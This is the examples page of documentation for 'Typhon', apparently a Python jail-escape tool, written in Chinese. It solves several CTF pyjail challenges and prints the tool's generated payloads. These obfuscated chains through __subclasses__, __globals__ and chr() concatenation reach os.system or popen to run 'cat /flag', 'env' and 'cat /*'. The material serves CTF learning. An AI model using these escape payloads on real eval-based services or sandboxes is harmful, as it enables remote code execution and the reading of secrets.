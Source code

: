 EXAMPLE 示例
============

此页用于提供关于 ``Typhon`` 的一些实战例题。

PwnyCTF 2025-Pyjail 2
---------------------------------------------------

题目链接： https://ctf.sigpwny.com/challenges#Vault/Pyjail%202-633

.. code-block:: python
    :linenos:
    :emphasize-lines: 3,26

    #!/usr/bin/env python3

    #Flag is at /flag.txt

    def is_bad(user_input):
        banned = '"*\'`x'

        for c in banned:
            if c in user_input:
                return True
        
        return False


    def main():

        print("You wake up in the jail gym. Your head is still sore from the bonk.")

        user_input = input('What do you have to say for yourself? ')

        if is_bad(user_input):
            print('Sorry, not good enough. Go back to jail.')
            return
        
        try:
            exec(user_input)
            print("Ok, we'll consider it.")
        except:
            print('Sorry, not good enough. Go back to jail.')


    if __name__ == '__main__':
        main()

flag位于 ``/flag.txt`` 文件中。

注意到第25行存在执行函数： ``exec(user_input)``。同时，此题目的WAF有且仅有 ``is_bad()`` 函数，其功能为检测用户输入是否包含 ``"``、 ``'``、 ``*``、  `````、 ``x``。

此处我们将执行行删去，换为对应的命令。

我们将 ``main()`` 函数改为：

.. code-block:: python
    :linenos:
    :emphasize-lines: 12,13

    def main():

        print("You wake up in the jail gym. Your head is still sore from the bonk.")

        user_input = input('What do you have to say for yourself? ')

        if is_bad(user_input):
            print('Sorry, not good enough. Go back to jail.')
            return
        
        try:
            import Typhon
            Typhon.bypassRCE('cat /flag.txt', banned_chr = '"*\'`x')
            print("Ok, we'll consider it.")
        except:
            print('Sorry, not good enough. Go back to jail.')

运行，随意输入使得控制流进入 :func:`bypassRCE` 函数，即可得到flag（在 ``input()`` 时直接回车即可）。

.. code-block::
    :emphasize-lines: 34

    You wake up in the jail gym. Your head is still sore from the bonk.
    What do you have to say for yourself?

        .-')          _                 Typhon: a pyjail bypassing tool
       (`_^ (    .----`/
        ` )  \_/`   __/     __,    [Typhon Version]: v1.0.10
        __{   |`  __/      /_/     [Python Version]: v3.13.4
       / _{    \__/ '--.  //       [Github]: https://github.com/Team-intN18-SoybeanSeclab/Typhon
       \_> \_\  >__/    \((        [Author]: LamentXU <lamentxu644@gmail.com>
            _/ /` _\_   |))

    WARNING [!] banned_chr should be a list, converting to list for compatibility.
    WARNING [!] local scope not specified, using the global scope.
    INFO [*] 7 paths found to directly getshell. Try to bypass blacklist with them. Please be paitent.
    Bypassing (7/7): [===============================================================================>] 100.0%
    INFO [+] directly getshell success. 49 payload(s) in total.
    INFO [+] You now can use this payload to getshell directly with proper input.




    -----------Progress-----------


    directly input bypass(49 payloads found): help()


    -----------Progress-----------


    +++++++++++Jail broken+++++++++++


    help()


    +++++++++++Jail broken+++++++++++

此时，我们再远程环境中输入 ``help()`` 再利用 `相应的技术 <https://typhonbreaker.readthedocs.io/zh-cn/latest/FAQ.html#help-rce>`_ 进行绕过即可 。

HNCTF 2022-calc_jail_beginner_level1
----------------------------------------------------------------

.. code-block:: python
    :linenos:
    :emphasize-lines: 6,29

    #the function of filter will banned some string ',",i,b
    #it seems banned some payload 
    #Can u escape it?Good luck!

    def filter(s):
        not_allowed = set('"\'`ib')
        return any(c in not_allowed for c in s)

    WELCOME = '''
    _                _                           _       _ _   _                _ __ 
    | |              (_)                         (_)     (_) | | |              | /_ |
    | |__   ___  __ _ _ _ __  _ __   ___ _ __     _  __ _ _| | | | _____   _____| || |
    | '_ \ / _ \/ _` | | '_ \| '_ \ / _ \ '__|   | |/ _` | | | | |/ _ \ \ / / _ \ || |
    | |_) |  __/ (_| | | | | | | | |  __/ |      | | (_| | | | | |  __/\ V /  __/ || |
    |_.__/ \___|\__, |_|_| |_|_| |_|\___|_|      | |\__,_|_|_| |_|\___| \_/ \___|_||_|
                __/ |                          _/ |                                  
                |___/                          |__/                                                                                      
    '''

    print(WELCOME)

    print("Welcome to the python jail")
    print("Let's have an beginner jail of calc")
    print("Enter your expression and I will evaluate it for you.")
    input_data = input("> ")
    if filter(input_data):
        print("Oh hacker!")
        exit(0)
    print('Answer: {}'.format(eval(input_data)))

同上题，我们将 ``eval`` 所包含的行改为对应的绕过函数。将黑名单 ``"'`ib`` 作为 :attr:`~bypassRCE.banned_chr` 参数传入即可。（我们假设flag在 ``/flag`` ）

此题中，为了追求更好的演示效果，我们假设这个程序不支持后续的输入（否则 ``help`` 直接可以解出，可以查看 `此题 <https://typhonbreaker.readthedocs.io/zh-cn/latest/EXAMPLE.html#pwnyctf-2025-pyjail-2>`_ 的说明）。此处我们将 :attr:`~bypassRCE.interactive` 设置为 ``False``

.. code-block:: python
    :linenos:
    :emphasize-lines: 29,30

    #the function of filter will banned some string ',",i,b
    #it seems banned some payload 
    #Can u escape it?Good luck!

    def filter(s):
        not_allowed = set('"\'`ib')
        return any(c in not_allowed for c in s)

    WELCOME = '''
    _                _                           _       _ _   _                _ __ 
    | |              (_)                         (_)     (_) | | |              | /_ |
    | |__   ___  __ _ _ _ __  _ __   ___ _ __     _  __ _ _| | | | _____   _____| || |
    | '_ \ / _ \/ _` | | '_ \| '_ \ / _ \ '__|   | |/ _` | | | | |/ _ \ \ / / _ \ || |
    | |_) |  __/ (_| | | | | | | | |  __/ |      | | (_| | | | | |  __/\ V /  __/ || |
    |_.__/ \___|\__, |_|_| |_|_| |_|\___|_|      | |\__,_|_|_| |_|\___| \_/ \___|_||_|
                __/ |                          _/ |                                  
                |___/                          |__/                                                                                      
    '''

    print(WELCOME)

    print("Welcome to the python jail")
    print("Let's have an beginner jail of calc")
    print("Enter your expression and I will evaluate it for you.")
    input_data = input("> ")
    if filter(input_data):
        print("Oh hacker!")
        exit(0)
    import Typhon
    Typhon.bypassRCE('cat /flag', banned_chr = '"\'`ib', interactive = False)

运行，使程序进行到 :func:`bypassRCE` 函数即可：

.. code-block::
    :emphasize-lines: 41

    -----------Progress-----------


    directly input bypass(0 payload found): None
    generator(0 payload found): None
    type(1 payload found): type
    object(2 payloads found): str().__class__.__mro__[1]
    bytes(3 payloads found): type(str().encode())
    builtins set(10 payloads found): vars()[chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)]
    builtins module(24 payloads found): all.__self__
    builtins(1 payload found): __builtins__
    import(6 payloads found): getattr(all.__self__,chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95))
    load_module(7 payloads found): all.__self__.__loader__.load_module
    modules(1 payload found): all.__self__.__loader__.load_module(chr(115)+chr(121)+chr(115)).modules
    os(16 payloads found): all.__self__.__loader__.load_module(chr(111)+chr(115))
    subprocess(16 payloads found): all.__self__.__loader__.load_module(chr(115)+chr(117)+chr(98)+chr(112)+chr(114)+chr(111)+chr(99)+chr(101)+chr(115)+chr(115))
    uuid(16 payloads found): all.__self__.__loader__.load_module(chr(117)+chr(117)+chr(105)+chr(100))
    pydoc(16 payloads found): all.__self__.__loader__.load_module(chr(112)+chr(121)+chr(100)+chr(111)+chr(99))
    multiprocessing(16 payloads found): all.__self__.__loader__.load_module(chr(109)+chr(117)+chr(108)+chr(116)+chr(105)+chr(112)+chr(114)+chr(111)+chr(99)+chr(101)+chr(115)+chr(115)+chr(105)+chr(110)+chr(103))
    codecs(16 payloads found): all.__self__.__loader__.load_module(chr(99)+chr(111)+chr(100)+chr(101)+chr(99)+chr(115))
    warnings(16 payloads found): all.__self__.__loader__.load_module(chr(119)+chr(97)+chr(114)+chr(110)+chr(105)+chr(110)+chr(103)+chr(115))
    base64(16 payloads found): all.__self__.__loader__.load_module(chr(98)+chr(97)+chr(115)+chr(101)+chr(54)+chr(52))
    importlib(16 payloads found): all.__self__.__loader__.load_module(chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(108)+chr(105)+chr(98))
    weakref(16 payloads found): all.__self__.__loader__.load_module(chr(119)+chr(101)+chr(97)+chr(107)+chr(114)+chr(101)+chr(102))
    reprlib(16 payloads found): all.__self__.__loader__.load_module(chr(114)+chr(101)+chr(112)+chr(114)+chr(108)+chr(105)+chr(98))
    sys(17 payloads found): all.__self__.__loader__.load_module(chr(115)+chr(121)+chr(115))
    linecache(16 payloads found): all.__self__.__loader__.load_module(chr(108)+chr(105)+chr(110)+chr(101)+chr(99)+chr(97)+chr(99)+chr(104)+chr(101))
    io(16 payloads found): all.__self__.__loader__.load_module(chr(105)+chr(111))
    ctypes(16 payloads found): all.__self__.__loader__.load_module(chr(99)+chr(116)+chr(121)+chr(112)+chr(101)+chr(115))
    profile(16 payloads found): all.__self__.__loader__.load_module(chr(112)+chr(114)+chr(111)+chr(102)+chr(105)+chr(108)+chr(101))
    timeit(16 payloads found): all.__self__.__loader__.load_module(chr(116)+chr(105)+chr(109)+chr(101)+chr(105)+chr(116))
    __import__2RCE(95 payloads found): all.__self__.__loader__.load_module(chr(111)+chr(115)).system(chr(99)+chr(97)+chr(116)+chr(32)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103))


    -----------Progress-----------


    +++++++++++Jail broken+++++++++++


    all.__self__.__loader__.load_module(chr(111)+chr(115)).system(chr(99)+chr(97)+chr(116)+chr(32)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103))


    +++++++++++Jail broken+++++++++++


Typhon-Sample Pyjail 1 
----------------------

本题目由此文档编写。

.. code-block:: python
    :linenos:
    :emphasize-lines: 1,24,37

        # flag in env
        WELCOME = '''
        _     ______      _                              _       _ _ 
        | |   |  ____|    (_)                            | |     (_) |
        | |__ | |__   __ _ _ _ __  _ __   ___ _ __       | | __ _ _| |
        | '_ \|  __| / _` | | '_ \| '_ \ / _ \ '__|  _   | |/ _` | | |·
        | |_) | |___| (_| | | | | | | | |  __/ |    | |__| | (_| | | |
        |_.__/|______\__, |_|_| |_|_| |_|\___|_|     \____/ \__,_|_|_|
                    __/ |                                           
                    |___/                                            
        '''
        import string

        print(WELCOME)

        print("Welcome to the python jail")
        print("Let's have an beginner jail of calc")
        print("Enter your expression and I will evaluate it for you.")
        if __name__ == '__main__':
            while True:
                try:
                    suc = True
                    cmd = input("Enter command: ")
                    blacklist = ['__loader__','__import__','os','\\x','+','join', '"', "'",'2','3','4','5','6','7','8','9','subprocess','[',']','sys',
                                        'pty','uuid','future','codecs','io','multi']
                    for i in blacklist:
                        if i in cmd:
                            print("Command not allowed")
                            suc = False
                            break
                    for i in cmd:
                        if i not in string.printable:
                            print("Command not allowed")
                            suc = False
                            break
                    if suc:
                        print(eval(cmd, {'__builtins__':None, 'st':str}))
                except KeyboardInterrupt:
                    break
                except Exception as e:
                    print(f'e ==> {e}')
                    pass

可以看到该题目有如下限制：

- 禁止使用 ``__loader__``、 ``__import__``、 ``os``、 ``\\x``、 ``+``、 ``join``、 ``"``、 ``'``、 ``2``、 ``3``、 ``4``、 ``5``、 ``6``、 ``7``、 ``8``、 ``9``、 ``subprocess``、 ``[``、 ``]``、 ``sys``、 ``pty``、 ``uuid``、 ``future``、 ``codecs``、 ``io``、 ``multi`` 等关键字。

- 禁止使用除 ``printable`` 字符集以外的字符。

- 命名空间为 ``{'__builtins__':None, 'st':str}`` 函数。

我们可以利用 ``Typhon`` 库中的 :func:`bypassRCE` 函数绕过限制。由于flag在环境中，我们执行 ``env`` 即可得到flag。

.. code-block:: python
    :linenos:

        import Typhon
        Typhon.bypassRCE(
            'env',
            local_scope = {'__builtins__':None, 'st':str},
            banned_chr = ['__loader__','__import__','os','\\x','+','join', '"', "'",'2','3','4','5','6','7','8','9','subprocess','[',']','sys',
                                        'pty','uuid','future','codecs','io','multi']
            )

.. tip::

    此处由于已经指定了命名空间，我们可以不在源代码上做修改，直接另起一个脚本调用 :func:`bypassRCE` 函数。但当题目没有指定命名空间时（即没有 ``local_scope`` 参数时），我们需要在源代码中调用 ``Typhon.bypassRCE()`` 函数。
    假如你不确定的话，也可以只在源代码中调用。

执行上述代码，即可得到payload。

.. note:: 

    对于复杂度较高的题目，可能需要等候较长时间。 `想提升性能？ <https://typhonbreaker.readthedocs.io/zh-cn/latest/FAQ.html#id3>`_ 

.. code-block::
    :emphasize-lines: 31

    -----------Progress-----------


    directly input bypass(0 payload found): None
    generator(3 payloads found): (a for a in ()).gi_frame
    type(2 payloads found): st.__class__
    object(5 payloads found): ().__class__.__mro__.__getitem__(1)
    bytes(2 payloads found): st.__class__(st().encode())
    import(0 payload found): None
    load_module(0 payload found): None
    modules(1 payload found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules
    builtins(3 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0b101).__add__(st.__doc__.__getitem__(0b100100)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(1)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0)))
    sys(3 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0)))
    os(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0)))
    codecs(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b1000).__add__(st.__doc__.__getitem__(0b100)).__add__(st.__doc__.__getitem__(0b110000)).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0)))
    warnings(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b1010100).__add__(st.__doc__.__getitem__(0b1001100)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b110011)).__add__(st.__doc__.__getitem__(0)))
    importlib(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b110001).__add__(st.__doc__.__getitem__(0b1100111)).__add__(st.__doc__.__getitem__(0b10010101)).__add__(st.__doc__.__getitem__(0b100)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(1)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101)))
    reprlib(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b10).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b10010101)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101)))
    linecache(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b11010000).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0b1001100)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0b1101010)).__add__(st.__doc__.__getitem__(0b111)))
    io(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b110001).__add__(st.__doc__.__getitem__(0b100)))
    exec(0 payload found): None
    __import__2RCE(1 payload found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0))).popen(st.__doc__.__getitem__(0b111).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(111))).read()


    -----------Progress-----------


    +++++++++++Jail broken+++++++++++


    ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0))).popen(st.__doc__.__getitem__(0b111).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(111))).read()
    Reminder: index 0 of st.__doc__[0] must match the string literal s.
    Reminder: index 4 of st.__doc__[4] must match the string literal o.
    Reminder: index 7 of st.__doc__[7] must match the string literal e.
    Reminder: index 27 of st.__doc__[27] must match the string literal y.
    Reminder: index 45 of st.__doc__[45] must match the string literal n.
    Reminder: index 111 of st.__doc__[111] must match the string literal v.
    Reminder: 110 is the index of StreamReaderWriter, path to sys must fit in index of StreamReaderWriter


    +++++++++++Jail broken+++++++++++

根据 ``reminder`` 信息稍微调整payload即可得到flag。

0xgame 2025 消栈逃出沙箱(1)反正不会有2
----------------------------------------------------------------

感谢 `Pure Stream <https://marblue.pink/>`_ 对题的授权。

题目源码：

.. code-block:: python
    :linenos:

    from flask import Flask, request, Response
    import sys
    import io

    app = Flask(__name__)

    blackchar = "&*^%#${}@!~`·/<>"

    def safe_sandbox_Exec(code):
        whitelist = {
            "print": print,
            "list": list,
            "len": len,
            "Exception": Exception
        }

        safe_globals = {"__builtins__": whitelist}

        original_stdout = sys.stdout
        original_stderr = sys.stderr

        sys.stdout = io.StringIO()
        sys.stderr = io.StringIO()
        
        try:
            exec(code, safe_globals)
            output = sys.stdout.getvalue()
            error = sys.stderr.getvalue()
            return output or error or "No output"
        except Exception as e:
            return f"Error: {e}"
        finally:
            sys.stdout = original_stdout
            sys.stderr = original_stderr

    @app.route('/')
    def index():
        return open(__file__).read()


    @app.route('/check', methods=['POST'])
    def check():
        data = request.form['data']
        if not data:
            return Response("NO data", status=400)
        for d in blackchar:
            if d in data:
                return Response("NONONO", status=400)
        secret = safe_sandbox_Exec(data)
        return Response(secret, status=200)

    if __name__ == '__main__':
        app.run(host='0.0.0.0',port=9000)

这是一个由 `Flask <https://flask.org.cn/en/stable/>`_ 框架构建的 pyjail web 挑战。我们不难注意到，此题目的 waf 有：

- 对命名空间的限制
.. code-block:: python

        whitelist = {
            "print": print,
            "list": list,
            "len": len,
            "Exception": Exception
        }

        safe_globals = {"__builtins__": whitelist}

- 对 payload 的黑名单限制
.. code-block:: python

    blackchar = "&*^%#${}@!~`·/<>"

由于这是一道web题目，我们不能控制程序的 stdin （即，类似于 ``input()`` , ``help()`` 的函数在此不适用）。因此，我们将 :attr:`~bypassRCE.interactive` 设置为 ``False``

.. code-block:: python
    :linenos:

    import Typhon

    Typhon.bypassRCE(
        "cat /*",
        local_scope={
            "__builtins__": {
                "print": print,
                "list": list,
                "len": len,
                "Exception": Exception,
            }
        },
        banned_chr= "&*^%#${}@!~`·/<>",
        interactive=False,
    )

运行，我们可得：

.. code-block::
    :emphasize-lines: 42

    -----------Progress-----------


    directly input bypass(0 payload found): None
    generator(3 payloads found): (a for a in ()).gi_frame
    type(1 payload found): list.__class__
    object(4 payloads found): "".__class__.__bases__[0]
    bytes(3 payloads found): list.__class__(''.encode())
    builtins set(2 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']
    builtins module(0 payload found): None
    import(6 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']
    load_module(6 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__loader__'].load_module
    modules(1 payload found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('sys').modules
    os(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('os')
    subprocess(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('subprocess')
    uuid(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('uuid')
    pydoc(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('pydoc')
    multiprocessing(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('multiprocessing')
    builtins(4 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('builtins')
    codecs(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('codecs')
    warnings(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('warnings')
    base64(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('base64')
    importlib(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('importlib')
    weakref(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('weakref')
    reprlib(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('reprlib')
    sys(4 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('sys')
    linecache(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('linecache')
    io(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('io')
    ctypes(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('ctypes')
    profile(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('profile')
    timeit(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('timeit')
    exec(32 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('profile').run
    __import__2RCE(1251 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('os').system('\143\141\164 \57\52')


    -----------Progress-----------


    +++++++++++Jail broken+++++++++++


    "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('os').system('\143\141\164 \57\52')


+++++++++++Jail broken+++++++++++

使用上述 payload 读取根目录下所有文件（包含 ``/flag`` ）。

.. note::

    此题的预期解法为利用 ``Exception`` 的 ``__traceback__`` 获取生成器通过栈帧寻找 ``__builtins__``。这涉及到多行绕过。

    Typhon目前还不支持此类题解，类似的解法将在下一个版本中得到实现。